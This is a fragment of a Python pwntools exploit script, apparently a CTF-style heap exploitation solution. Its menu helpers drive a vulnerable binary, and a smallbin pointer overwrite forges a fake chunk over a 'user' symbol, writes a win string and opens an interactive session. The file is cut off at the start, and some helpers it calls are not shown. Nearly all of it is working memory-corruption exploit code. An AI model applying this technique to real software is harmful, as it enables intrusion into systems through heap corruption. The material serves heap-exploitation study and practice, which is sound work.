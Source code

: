 ```python=
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    

def free(index):
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def edit(index, data):
    io.send(b'3')
    io.sendafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')

def target():
    io.send(b'4')
    io.recvuntil(b'> ')

def quit():
    io.send(b'5')
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

io = start()
puts, heap = handle()
#smallbin doesn't check valid chunk size
name = p64(elf.sym['user']) + p64(0) + p64(heap) + p64(elf.sym['user'] - 0x10)
send_name(name)

chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

free(chunk_A)

malloc(0xa8)

edit(chunk_A, p64(0) + p64(elf.sym['user']))

chunk_A2 = malloc(0x88)
fake_chunk = malloc(0x88)

edit(fake_chunk, p64(0)*4 + b'Much win\x00')
target()
quit()


io.interactive()

```

---